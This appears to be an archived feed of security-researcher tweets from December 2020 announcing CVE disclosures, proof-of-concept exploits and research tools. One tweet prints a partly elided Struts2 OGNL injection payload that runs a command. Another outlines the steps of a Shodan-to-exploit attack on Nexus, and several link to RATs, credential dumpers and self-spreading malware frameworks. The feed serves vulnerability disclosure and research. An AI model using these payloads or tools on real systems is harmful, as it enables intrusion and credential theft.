




# blogresponder
**https://twitter.com/blogresponder/status/1344297679694794752 _at 2020-12-30 15:01:57_**
<blockquote>
CVE-2016-9795 privilege escalation **REVISITED** using /etc/ld.so.preload file overwrite

Disclamer: I did not invent anything here, just described an alternative PoC for a known CVE.

https://t.co/RdUto4EUKf
</blockquote>

* https://github.com/blogresponder/CA-Common-Services-privilege-escalation-cve-2016-9795-revisited

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1343595226619904009 _at 2020-12-28 16:30:39_**
<blockquote>
CVE-2020-6308: SAP BusinessObjects Business Intelligence Platform (Web Services) versions - 410, 420, 430, allows an unauthenticated attacker to inject arbitrary values as CMS parameters to perform lookups..
https://t.co/4mLnED1x6s https://t.co/bBYbgHPsPv
</blockquote>

* https://github.com/InitRoot/CVE-2020-6308-PoC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>12</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1343574186678108161 _at 2020-12-28 15:07:03_**
<blockquote>
RT @KLINIX5: I disclosed about 8 zero-day vulnerability, with a novel way to bypass common antiviruses self-protection and CVE-2020-16902 p…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>309</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1343558960255660032 _at 2020-12-28 14:06:32_**
<blockquote>
ESPHome : a system to control your ESP8266/ESP32 by simple yet powerful config files and control them remotely through Home Automation systems : https://t.co/QK7gJnGDWZ  credits @OttoWinter_ || @esphome_
</blockquote>

* https://github.com/esphome/esphome

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>33</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1343553919645962242 _at 2020-12-28 13:46:31_**
<blockquote>
.NET Core for Malware : https://t.co/MAUWHCvbx7

Slides : https://t.co/9eKM3d7mtv credits @cobbr_io
</blockquote>

* https://www.youtube.com/watch?v=woRfx5D2Y9Y
* https://github.com/specterops/presentations/raw/master/Ryan%20Cobb/NET%20Core%20for%20Malware_SO-CON2020.pdf

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>42</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1343209924688408576 _at 2020-12-27 14:59:36_**
<blockquote>
Web-Dev-For-Beginners : 24 Lessons, 12 Weeks, Get Started as a Web Developer : https://t.co/3KRDt3Pu1k
</blockquote>

* https://github.com/microsoft/Web-Dev-For-Beginners

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>116</code></td>
</table></tr>

---

# KLINIX5
**https://twitter.com/KLINIX5/status/1342870273838739456 _at 2020-12-26 16:29:57_**
<blockquote>
I disclosed about 8 zero-day vulnerability, with a novel way to bypass common antiviruses self-protection and CVE-2020-16902 patch bypass.
https://t.co/j8JqgsAxbh
</blockquote>

* https://halove23.blogspot.com/2020/12/oh-so-you-have-antivirus-nameevery-bug.html

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>338</code></td>
<td>Favorites: <code>855</code></td>
</table></tr>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1342218312340676609 _at 2020-12-24 21:19:17_**
<blockquote>
Looked into CVE-2020-0986 as unpatched privilege escalations in Windows are hot right now. Articles are a bit misleading, this only allows privilege escalation from low-integrity to medium integrity - useful for exploit chains but it's not SYSTEM privileges. Interesting bug tho. https://t.co/QIFN8bj5Aa
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>41</code></td>
</table></tr>

---

# standa_t
**https://twitter.com/standa_t/status/1342154105255391232 _at 2020-12-24 17:04:09_**
<blockquote>
Happy to learn that windows drivers can be written in #rustlang fairly smoothly. Here is my leet Rust code :-) 
https://t.co/CLppxQPSud

and an accompanying note about dumping runtime drivers. 
https://t.co/npYkmQtuyV
</blockquote>

* https://github.com/tandasat/kraft_dinner/tree/main/kraft_dinner
* https://standa-note.blogspot.com/2020/12/experiment-in-extracting-runtime.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>227</code></td>
</table></tr>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1342048374468521984 _at 2020-12-24 10:04:01_**
<blockquote>
Every year I try to do a little project for the end of the year to unwind and have fun 🎉

This year I made a Windows virtual address space explorer called 🔮 Clairvoyance; check it out!

https://t.co/vZoBaD91pb https://t.co/qXJWCy7Y7i
</blockquote>

* https://github.com/0vercl0k/clairvoyance

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>265</code></td>
</table></tr>

---

# goby77463399
**https://twitter.com/goby77463399/status/1341927361491697665 _at 2020-12-24 02:03:09_**
<blockquote>
New vulnerability :Microsoft SharePoint Server CVE-2019-0604 Remote Code Execution Vulnerability

More information please visit https://t.co/WRcfnSlueD
Provide feedback please visit https://t.co/Ny9iyQM9vK https://t.co/PKWo5iMQO7
</blockquote>

* https://gobies.org/updates.html
* https://github.com/Gobysec/Goby/issues

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# maddiestone
**https://twitter.com/maddiestone/status/1341781305126612995 _at 2020-12-23 16:22:46_**
<blockquote>
In May, Kaspersky (@oct0xor) discovered CVE-2020-0986 in Windows splwow64 was exploited itw as a 0day. Microsoft released a patch in June, but that patch didnt fix the vuln. After reporting that bad fix in Sept under a 90day deadline, it's still not fixed. https://t.co/WDGNs3JGka
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=2096

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>157</code></td>
<td>Favorites: <code>406</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1341541767318024192 _at 2020-12-23 00:30:56_**
<blockquote>
CVE-2020-35489: Unrestricted File Upload Vulnerability found in Contact Form 7 plugin affects 5M+ websites
https://t.co/VBNwfVJO60 https://t.co/aBlWEgoH5q
</blockquote>

* https://blog.wpsec.com/contact-form-7-vulnerability/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>93</code></td>
</table></tr>

---

# PwnedShell
**https://twitter.com/PwnedShell/status/1341492671383281665 _at 2020-12-22 21:15:51_**
<blockquote>
Larascript: A laravel RCE exploit based on CVE-2018-15133.
Shoutout to @rsgbengii
https://t.co/vPnXhA5bT6
</blockquote>

* https://github.com/PwnedShell/Larascript

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>5</code></td>
</table></tr>

---

# ehakkus
**https://twitter.com/ehakkus/status/1341334351154458625 _at 2020-12-22 10:46:44_**
<blockquote>
(CVE-2020-35606)#Webmin 1.962-PU Escape Bypass RCE.I've stated that Im gonna continue to analyze Webmin. By keeping my word,I shared one of the vuln that I kept in my hand.Detailed analysis can be found on my pblog.I'll have another surprise for webmin in the future😉Best regards https://t.co/wOvFyDeNet
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>74</code></td>
</table></tr>

---

# testanull
**https://twitter.com/testanull/status/1341279708491599872 _at 2020-12-22 07:09:36_**
<blockquote>
I just published an analysis of CVE-2020-7200, HPE SIM AMF Deserialization lead to RCE 
PoC: https://t.co/rjF7LSlWxG
Post: https://t.co/rCbrkHxBhn
</blockquote>

* https://github.com/testanull/ProjectSIM/
* https://link.medium.com/uK3qeyfYpcb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>144</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1341118637038575616 _at 2020-12-21 20:29:34_**
<blockquote>
[ CVE-2020-16875 Protection/Filter Bypass ] MICROSOFT EXCHANGE REMOTE CODE EXECUTION
https://t.co/y8bo9w9BUA https://t.co/yDDbZgmu4T
</blockquote>

* https://x41-dsec.de/security/advisory/exploit/research/2020/12/21/x41-microsoft-exchange-rce-dlp-bypass/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>171</code></td>
<td>Favorites: <code>379</code></td>
</table></tr>

---

# thezdi
**https://twitter.com/thezdi/status/1341082714733236226 _at 2020-12-21 18:06:49_**
<blockquote>
CVE-2020-7468: Turning Imprisonment to Advantage in the FreeBSD ftpd chroot Jail - a new blog from @_wmliang_  covering a now patched local privilege escalation in #FreeBSD. https://t.co/AlrO2d3Bfl
</blockquote>

* http://bit.ly/2WwSNLE

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>87</code></td>
</table></tr>

---

# matarturo
**https://twitter.com/matarturo/status/1340976784712593411 _at 2020-12-21 11:05:54_**
<blockquote>
CVE-2020-27935/SnatchBox:
Sandbox escape vulnerability and exploit affecting macOS up to version 10.15.x (PoC)
https://t.co/5sG0Wja72A
</blockquote>

* https://github.com/LIJI32/SnatchBox

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# jedisct1
**https://twitter.com/jedisct1/status/1340969698222084096 _at 2020-12-21 10:37:44_**
<blockquote>
RT @radareorg: r2-5.0 is out! 🎉 🎉 🎉
Check the release notes: https://t.co/PvvpBn226m Big thanks to everyone who contributed to make this re…
</blockquote>

* https://github.com/radareorg/radare2/releases/tag/5.0.0

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# Securityblog
**https://twitter.com/Securityblog/status/1340957612947492865 _at 2020-12-21 09:49:43_**
<blockquote>
GitHub - LIJI32/SnatchBox: SnatchBox (CVE-2020-27935) is a sandbox escape vulnerability and exploit affecting macOS up to version 10.15.x https://t.co/3ReuHpPmfs
</blockquote>

* https://github.com/LIJI32/SnatchBox

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</table></tr>

---

# radareorg
**https://twitter.com/radareorg/status/1340941542522023936 _at 2020-12-21 08:45:51_**
<blockquote>
r2-5.0 is out! 🎉 🎉 🎉
Check the release notes: https://t.co/PvvpBn226m Big thanks to everyone who contributed to make this release possible!
</blockquote>

* https://github.com/radareorg/radare2/releases/tag/5.0.0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>135</code></td>
</table></tr>

---

# aulliakenz
**https://twitter.com/aulliakenz/status/1340308506973331457 _at 2020-12-19 14:50:24_**
<blockquote>
Sorry for the delay.

1. Using shodan search query : org:"https://t.co/jZRuDREwjR"
2. Found a Nexus dashboard
3. exploit code injection using a (CVE-2019-7238) ExDB
4. Run this code and boom.

You get a happy nice days. https://t.co/72jqKwlH17
</blockquote>

* http://mail.ru

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>34</code></td>
</table></tr>

---

# liji32
**https://twitter.com/liji32/status/1339945012709253122 _at 2020-12-18 14:46:00_**
<blockquote>
SnatchBox: Sandbox escape for macOS 10.15.x and older

POC and write-up at https://t.co/KTWdYsgzrC
</blockquote>

* https://github.com/LIJI32/SnatchBox

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>38</code></td>
</table></tr>

---

# dougallj
**https://twitter.com/dougallj/status/1339934291929694210 _at 2020-12-18 14:03:24_**
<blockquote>
I started reversing Apple AMX, an undocumented 64-bit ARM instruction set extension for a matrix coprocessor, used by the Accelerate framework on the M1 (and A13+). My (incomplete) IDA/Hex-Rays plugin and notes so far: https://t.co/XveVRLokr3
</blockquote>

* https://gist.github.com/dougallj/7a75a3be1ec69ca550e7c36dc75e0d6f

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>141</code></td>
<td>Favorites: <code>537</code></td>
</table></tr>

---

# bagder
**https://twitter.com/bagder/status/1339886374602690562 _at 2020-12-18 10:53:00_**
<blockquote>
I've merged the first support for Hyper into curl's master branch. It's not complete but it goes a pretty long way. Curious minds can now try it out a little easier: https://t.co/CAVnmeaPsU 

(Hyper magic cortesy of @seanmonstar of course.)
</blockquote>

* https://github.com/curl/curl/wiki/Hyper

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>198</code></td>
</table></tr>

---

# loopspell
**https://twitter.com/loopspell/status/1339814413415550976 _at 2020-12-18 06:07:03_**
<blockquote>
I just published CVE-2020-29227: Unauthenticated Local File Inclusion In Car Rental Management System 1.0 https://t.co/8HcbK7wdXm
</blockquote>

* https://link.medium.com/c2NVlbUfjcb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>31</code></td>
</table></tr>

---

# R0_CREW
**https://twitter.com/R0_CREW/status/1339671706194096151 _at 2020-12-17 20:39:59_**
<blockquote>
Wow!! The #Ghidra project is preparing to release a debugger (GDB 8.0+, WinDbg, Java, pseudo-emulation, a bunch of stubs for other debuggers), 300.000 + added lines, 2000+ new files.

https://t.co/4kVjnoIcXR

#reverse #ghidra #debugger https://t.co/Pap4GE0YKH
</blockquote>

* https://github.com/NationalSecurityAgency/ghidra/tree/debugger

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>185</code></td>
<td>Favorites: <code>536</code></td>
</table></tr>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1339554636945080326 _at 2020-12-17 12:54:47_**
<blockquote>
CVE-2020-17057 Microsoft Windows DirectComposition Uninitialized Pointer Privilege Escalation Vulnerability by @360CoreSec

https://t.co/x6WKDFeLuX
</blockquote>

* https://blogs.360.cn/post/CVE-2020-17057%20detail%20and%20exploit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>36</code></td>
</table></tr>

---

# MaKyOtOx
**https://twitter.com/MaKyOtOx/status/1339543338916175872 _at 2020-12-17 12:09:54_**
<blockquote>
CVE-2020-25695 Privilege Escalation in Postgresql https://t.co/a7t21pFXdD https://t.co/6BUZ41ukjB #CVE #PoC #Exploit
</blockquote>

* https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/
* https://gist.github.com/staaldraad/1325617885d42aa40777aa4774e91214

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</table></tr>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1339168187619790848 _at 2020-12-16 11:19:11_**
<blockquote>
By decoding the #DGA domain names, we discovered nearly a hundred domains suspected to be attacked by #UNC2452 #SolarWinds, including universities, governments and high tech companies such as @Intel and @Cisco. Visit our github project to get the script.

https://t.co/jsnOldynCV https://t.co/40VfXuR6JI
</blockquote>

* https://github.com/RedDrip7/SunBurst_DGA_Decode

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>100</code></td>
<td>Replies: <code>39</code></td>
<td>Retweets: <code>696</code></td>
<td>Favorites: <code>1275</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1339032733058650112 _at 2020-12-16 02:20:56_**
<blockquote>
SolarWinds Orion Account Audit / Password Dumping Utility : https://t.co/oZ0dmuSPT7

Credential Dumping Tool for SolarWinds Orion : https://t.co/sgiLXCqu2f credits @mubix 

Back to Back(2018*) : Fun with SolarWinds Orion Cryptography : https://t.co/6yp5lhT1Mr
</blockquote>

* https://github.com/mubix/solarflare
* https://malicious.link/post/2020/solarflare-release-password-dumper-for-solarwinds-orion/
* https://www.atredis.com/blog/2018/10/24/fun-with-the-solarwinds-orion-platform

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>74</code></td>
</table></tr>

---

# eternalsakura13
**https://twitter.com/eternalsakura13/status/1339028284361732096 _at 2020-12-16 02:03:15_**
<blockquote>
My first render uaf, but not stable, and my first PR for github security Chrome ql.
https://t.co/xKIAy5jRQl
Thanks to Man Yue Mo for his outstanding work. https://t.co/LBQ4esVKzJ
</blockquote>

* https://github.com/github/securitylab/tree/main/CodeQL_Queries/cpp/Chrome

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>90</code></td>
</table></tr>

---

# ifsecure
**https://twitter.com/ifsecure/status/1338869974845177857 _at 2020-12-15 15:34:11_**
<blockquote>
Jackalope, my binary, coverage-guided, customizable, distributed fuzzer for Windows and macOS is now open-source. Happy fuzzing and happy holidays! :-) https://t.co/J0WZt3gSRA
</blockquote>

* https://github.com/googleprojectzero/Jackalope

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>263</code></td>
<td>Favorites: <code>730</code></td>
</table></tr>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1338861667069775875 _at 2020-12-15 15:01:10_**
<blockquote>
Have you ever wondered how the IDA Lumina feature works, what kind of data is sent, and wished for a local server under your control?

@_johan_b_ wrote a blog post to answer these questions:

https://t.co/nn7eoAXuyl

An offline server is also available:

https://t.co/ExdPD7wvCt https://t.co/9cX1QivF1M
</blockquote>

* https://www.synacktiv.com/publications/investigating-ida-lumina-feature.html
* https://github.com/synacktiv/lumina_server

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>126</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1338385987798409217 _at 2020-12-14 07:31:00_**
<blockquote>
S2-061 #Apache #Struts2 RCE

[PoC]
url+"/?id="+payload

payload="%{(
..........
..........
..........(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}

https://t.co/1mVRcU9cI4
https://t.co/NTNmZuKqDI
</blockquote>

* https://github.com/fengziHK/CVE-2020-17530-strust2-061/blob/main/struts2-061-poc.py
* https://github.com/wuzuowei/CVE-2020-17530

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>93</code></td>
</table></tr>

---

# jas502n
**https://twitter.com/jas502n/status/1338179859265146881 _at 2020-12-13 17:51:55_**
<blockquote>
#CVE-2020-26259 
XStream is vulnerable to an Arbitrary File Deletion on the local host when unmarshalling as long as the executing process has sufficient rights.

1.4.14

#CVE-2020-26258 XStream SSRF

Poc:
https://t.co/6GHbng49Dy
https://t.co/I5KB42tyz5 https://t.co/X5iGnoYHqd
</blockquote>

* https://x-stream.github.io/CVE-2020-26259.html
* https://x-stream.github.io/CVE-2020-26258.html

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>63</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338107609920892931 _at 2020-12-13 13:04:49_**
<blockquote>
Koadic C3 COM Command &amp; Control - JScript RAT : https://t.co/pbwVbJpIwC 

SassyKitdi: Kernel Mode TCP Sockets + LSASS Dump : https://t.co/CDKym5Yded credits @zerosum0x0
</blockquote>

* https://github.com/zerosum0x0/koadic
* https://zerosum0x0.blogspot.com/2020/08/sassykitdi-kernel-mode-tcp-sockets.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>64</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338100937747877888 _at 2020-12-13 12:38:18_**
<blockquote>
Neurax : A framework for constructing self-spreading binaries : https://t.co/5a4qqmBsox
</blockquote>

* https://github.com/redcode-labs/Neurax

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>137</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338091870556020739 _at 2020-12-13 12:02:17_**
<blockquote>
Packer Fuzzer : a fast and efficient scanner for security detection of websites constructed by javascript module bundler such as Webpack : https://t.co/Y84WB3Z7zF
</blockquote>

* https://github.com/rtcatc/Packer-Fuzzer

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>61</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338087455359045632 _at 2020-12-13 11:44:44_**
<blockquote>
Damn vulnerable C program and fuzzing video tutorials with AFL,winafl, honggfuzz,libfuzzer : https://t.co/iJqGSnaMCi credits @hardik05
</blockquote>

* https://github.com/hardik05/Damn_Vulnerable_C_Program

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>262</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338080902404980736 _at 2020-12-13 11:18:42_**
<blockquote>
Missing CentOS around ...?  Creator of CentOS is now creating Rocky Linux to “be 100% bug-for-bug compatible with Enterprise Linux created in response to the effective discontinuation of CentOS : https://t.co/tuyd0jBQ3w

Infrastructure : https://t.co/XOfLEGpxEZ
</blockquote>

* https://github.com/rocky-linux/rocky
* https://github.com/rocky-linux/infrastructure

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>86</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338068195907792897 _at 2020-12-13 10:28:12_**
<blockquote>
cypress : Fast, easy and reliable testing for anything that runs in a browser : https://t.co/fWKOOrLZpT credits @bahmutov
</blockquote>

* https://github.com/cypress-io/cypress

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>43</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1338066704786628611 _at 2020-12-13 10:22:17_**
<blockquote>
Vftool : It runs Linux virtual machines in macOS Big Sur : https://t.co/IwAhxEqXGG
</blockquote>

* https://github.com/evansm7/vftool

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>84</code></td>
</table></tr>

---

# netbiosX
**https://twitter.com/netbiosX/status/1338003765597704194 _at 2020-12-13 06:12:11_**
<blockquote>
SirepRAT - RCE as SYSTEM on Windows IoT Core https://t.co/3oxNapjLuQ
</blockquote>

* https://github.com/SafeBreach-Labs/SirepRAT/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>54</code></td>
</table></tr>

---

# hahwul
**https://twitter.com/hahwul/status/1337952322614226944 _at 2020-12-13 02:47:46_**
<blockquote>
SSRF, simple mindmap. https://t.co/AmqWdDcIlt https://t.co/gr4JNU1E59
</blockquote>

* https://github.com/hackerscrolls/SecurityTips/raw/master/MindMaps/SSRF.xmind

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>5</code></td>
